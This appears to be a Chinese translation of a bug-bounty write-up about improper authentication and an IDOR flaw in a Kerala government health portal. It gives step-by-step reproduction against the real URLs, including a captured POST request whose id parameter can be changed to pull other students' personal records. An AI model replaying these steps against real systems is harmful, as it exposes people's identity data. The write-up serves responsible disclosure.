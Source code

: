 # 我如何利用漏洞成为政府官员？

> 原文：<https://infosecwriteups.com/how-i-become-a-government-official-using-a-vulnerability-4605a2db47f0?source=collection_archive---------1----------------------->

嘿伙计们！又是我克里希纳德夫·P·梅莱威拉！如果你不认识我，就去问你的谷歌助手“谁是克里希纳德夫·P·梅勒维拉”。

今天我带着一个新的喀拉拉邦政府门户网站的漏洞来到这里。它被称为 AHIMS 门户网站，这是喀拉拉邦政府的一项倡议，目的是在 covid 危机后学校开学前为儿童提供免疫增强片。

该站点容易受到不正确的目录访问，也很容易受到攻击

重现漏洞的步骤如下:

```
**Vulnerability: Improper Authentication + IDOR****Impact: CRITICAL****Risks: Attacker can visit restricted pages (Including administrator  and staff pages) and able to create, modify, delete data.****Priority: P1****Scope: Name, Aadhar Number, Address, Phone Number, Date of birth, etc.. are leaking.**
```

**从攻击者的角度重现不正确身份验证的步骤:**

1.  【https://www.ahims.kerala.gov.in/ahims/pages】拜访[T5](https://www.ahims.kerala.gov.in/ahims/pages)

![](img/b2672c3b14ad1825206ea08f97c0d60e.png)

这是第一个漏洞。在这里，公众可以访问所有模块。没有一个是经过适当认证的。因此，攻击者可以进入每个模块，改变每一个数据(实际上，所有这些功能只有管理员可以使用，但由于这个漏洞，每个人都可以这样做)

它还泄漏了一个名为报告的文件，其中存储了所有员工的登录详细信息。因此攻击者可以成功地以员工身份登录。

![](img/5ab4ccf44c68dc6930f2b5051c4c2a46.png)![](img/ade252efed3c623ad339390843f593b0.png)

**从攻击者的角度重现 IDOR 的步骤:**

1.  **在**[**https://www.ahims.kerala.gov.in/ahims**](https://www.ahims.kerala.gov.in/ahims)上注册
2.  **登录它，然后我们会得到一个选项来添加学生那里攻击者输入假数据并提交。**

![](img/1f9e677fbbd63c92ae959a9fd32b345e.png)

**3。现在打开任何网页拦截工具，如 burpsuite，点击编辑按钮**

![](img/675680afeaddf870dcd4168b5e2ea39d.png)

现在攻击者会在 burpsuite 上收到一个帖子请求，如下:

```
**POST /ahims/pages/jqdir/jq_getsaved_students.php HTTP/1.1
Host:** [**www.ahims.kerala.gov.in**](http://www.ahims.kerala.gov.in) **Cookie: _ga=GA1.3.1639422503.1633161064; PHPSESSID=itb0aia4ilb5152d76j7bdbmq4
Content-Length: 9
Sec-Ch-Ua: “Chromium”;v=”94", “Google Chrome”;v=”94", “;Not A Brand”;v=”99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Sec-Ch-Ua-Platform: “Linux”
Origin:** [**https://www.ahims.kerala.gov.in**](https://www.ahims.kerala.gov.in) **Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer:** [**https://www.ahims.kerala.gov.in/ahims/pages/add_student.php**](https://www.ahims.kerala.gov.in/ahims/pages/add_student.php) **Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ml;q=0.8,hi;q=0.7
Connection: close
id=668944     //IDOR VULNERABLE**
```

**5。在该请求中，id 参数容易受到 IDOR 的攻击。如果我们将 id 从 668944 更改为 668933，攻击者将获得 id 为 668933 的用户的详细信息，而不是 id 为 668944 的用户(下面是 3 个样本证明数据)**

![](img/6078601e77d52be7352a79500a9bd946.png)

学生敏感数据

很快又会有另一个弱点

根据我在 2021 年 10 月 27 日的报告，有关部门正在修复这个漏洞。

***别忘了在 medium 等社交媒体上关注我。***

*我的 Instagram 手柄:*[*https://instagram.com/krishnadev_p_melevila*](https://instagram.com/krishnadev_p_melevila)

*我的推特句柄:*[*https://twitter.com/Krishnadev_P_M*](https://twitter.com/Krishnadev_P_M)

*我的 LinkedIn 手柄:*[*【https://www.linkedin.com/in/krishnadevpmelevila/】*](https://www.linkedin.com/in/krishnadevpmelevila/)

*我的人事网站:*[*http://krishnadevpmelevila.com/*](http://krishnadevpmelevila.com/)